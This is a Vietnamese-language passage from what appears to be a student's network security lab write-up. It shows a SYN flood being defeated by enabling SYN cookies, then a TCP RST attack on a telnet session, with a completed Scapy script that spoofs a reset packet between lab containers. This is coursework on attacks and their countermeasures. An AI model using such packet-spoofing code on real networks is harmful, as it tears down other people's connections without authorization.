 - Sau đó kiểm bằng cách dùng container user1 telnet tới victim như đã đề cập ở task1.1 thì thấy cuộc tấn công của ta đã thành công.

    ![](https://i.imgur.com/4ya7DTa.png)

#### a. Task 1.3: Enable the SYN Cookie Countermeasure

- Các task ở trên thực hiện khi SYN Cookie Countermeasure ở chế độ disable. Task1.3 này ta sẽ thực hiện lại các cuộc tấn công trên khi SYN Cookie Countermeasure ở chế độ enable
- Đầu tiên ta thực hiện enable SYN Cookie Countermeasure bằng lệnh `sysctl -w net.ipv4.tcp_syncookies=1` ở terminal victim.

    ![](https://i.imgur.com/i85ZcQI.png)
    
    Ta đã thành công enable SYN Cookie Countermeasure.
- Tiếp đến ta thực hiện lại 2 cuộc tấn công trên. thì nhận được kết quả :

    ![](https://i.imgur.com/3TXgZ8t.png)
    
    Điều đó chứng tỏ là cuộc tấn công SYN flood của chúng ta đã thất bại. Kiểm tra bằng lệnh `netstat -nat |grep ESTABLISHED` để có thể thấy rõ hơn.
    
    ![](https://i.imgur.com/zZ4IYMj.png)

    Vậy nên ta sẽ không thể flood queue của victim nếu như SYN Cookie Countermeasure đang enable. Vì đây là một kỹ thuật gọi là SYN cookie, kỹ thuật này nhằm để chống lại SYN flood attack. Nó còn cho phép server tránh bị drop connection khi queue bị đầy.
## Task 2: TCP RST Attacks on telnet Connections

TCP RST attack là một kỹ thuật có thể chấm dứt kết nối TCP đã thiết lập giữa 2 victim. VÍ dụ có một kết nối telnet được thiết lập giữa 2 máy A và B, attacker có thể spoof RST packet từ A và gửi đến cho B để ngắt kết nối telnet.

- Đề cho ta một sườn code với các giá trị khuyết, bây giờ ta cần phải hoàn thành code đó để tạo nên một cuộc tấn công TCP RST.

- Đầu tiên thì ta dùng `wireshark` để tìm ra IP nguồn và IP đích.

    ![](https://i.imgur.com/qsrVvRN.png)

- Tiếp đến ta thực hiện thiết lập một kết nối `telnet` giữa `user1` và `victim`.

    ![](https://i.imgur.com/kpLJZfM.png)
    
- Sau đó ta lấy thông tin của gói tin mà `wireshark` quét được để điền vào trong code gồm `port = 44612, seq=3547789532 , IP src =10.9.0.6, IP dest=10.9.0.5`

    ![](https://i.imgur.com/IVbJmQI.png)
    

- Sau khi hoàn thành thì ta được đoạn code như sau :

    ```python
    #!/usr/bin/env python3
    from scapy.all import *
    ip = IP(src="10.9.0.6", dst="10.9.0.5")
    tcp = TCP(sport=44612, dport=23, flags="R", seq=3547789532)
    pkt = ip/tcp
    ls(pkt)
    send(pkt, verbose=0)
    ```
